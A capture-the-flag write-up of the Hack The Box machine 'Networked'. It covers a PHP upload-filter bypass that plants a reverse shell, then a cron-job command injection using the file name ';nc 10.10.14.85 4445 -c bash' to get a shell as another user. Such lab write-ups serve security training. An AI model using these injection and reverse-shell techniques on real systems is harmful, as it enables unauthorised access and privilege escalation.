 ```yaml
---
title: HTB - Networked
tags: [Hacking, HTB, Security, Linux, PHP, Easy]
style:
color:
description: Here is my write up for the box Networked via Hackthebox.
---
```


I dont remember exactly when I popped this box, but I believe it was one of the first ones I did.

## 1. Enumeration

Alright, lets get down to it. First things first, nmap scan.

`nmap -Pn -sVC 10.10.10.146`

![nmap](../images/nmap_networked.png "nmap scan")

While that was running, I went ahead and started running both a dirb and nikto scan.

`dirb http://10.10.10.146 -r`

![dirb](../images/dirb_networked.png "dirb scan")

`nikto -h http://10.10.10.146`

![nikto](../images/nikto_networked.png "nikto scan")

## 2. Exploiting PHP

During the enum phase, dirb identified `backup.tar`. Downloading the tar file and unpacking it reveals the workings of `upload.php`. THe `upload.php` file only checks the extension of the file and if its under 60000k.

![upload.php workings](../images/upload_networked.png "upload.php workings")

Since we know how `upload.php` works, we can now upload a reverse shell and bypass the checks by modifying the request via Burp. I used pentestmonkey's handy dandy reverse PHP shell.

![burp modify request](../images/mod_req_networked.png "burp modify request")  

Tada! Reverse shell

![reverse shell as apache](../images/rs_networked.png "reverse shell")

## 3. Privilege Escalation to Guly

Now that we have a shell, its time to enumerate some more. First things first, lets see if `www-data` can run anything as root via the `sudo -l` command.

Bummer :(  
![sudo -l](../images/sudol1_networked.png "sudo -l command")

Going to attempt to transfer `lse.sh` and then run it to see all the interesting things on this machine.

![lse.sh -l1](../images/lse_networked.png "lse.sh")

In the cron jobs section, we notice a job `check_attack`. Reading the contents of this cron job reveals that it checks the uploads folder in the `/var/www/html/uploads` directory. Running `ls -la` on that directory shows we dont have read/write access, but were going to try and touch a file in there anyway.

`touch test.txt`  

![touch test](..images/touch_test_networked.png "touch test")  

Walla! It worked!

Now that we know we can touch a file, lets look at the code in the `check_attack` cron a little more carefully to see if we can exploit this and escalate our privileges. After looking over the code, there is one line that stands out in particularly:

`exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");`

If we touch a file into the uploads directory with the following name below:

`;nc 10.10.14.85 4445 -c bash`

Everything after the `;` symbol will be treated as a completely separate command. So when the cron job runs, which is being ran under the user Guly, it will execute the nc command then open a shell back on our attacking machine. Alternatively you can touch a file with the name of `test.txt` and then use the `mv` command to change it to the name mentioned above.

Success!

![guly shell](../images/guly_networked.png "guly shell")  

We can find the `user.txt` in its normal spot.

## 4. Privilege Escalation to root

Now that we have a little higher privileges lets do some more enumeration. First things first, checking if we can run anything as root via `sudo`.

`sudo -l`
![sudo -l](../images/sudol_networked.png "sudo -l command")

Looks like we can run the above command as root. Quick google search?

Googling `changename.sh`, we find that there is a vulnerability that leads us on the path to get root [Vulmon](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f).

Following the instructions about the vulnerability below, we get root. BOOM!

![priv esc to root](../images/root_networked.png "privup to root")


## 5. Conclusion

Overall this was a nice box. For me, the biggest hurdle was moving from www-data to the user Guly. After that it was smooth sailing.

Always remember, enumeration is your best friend! So is Google.
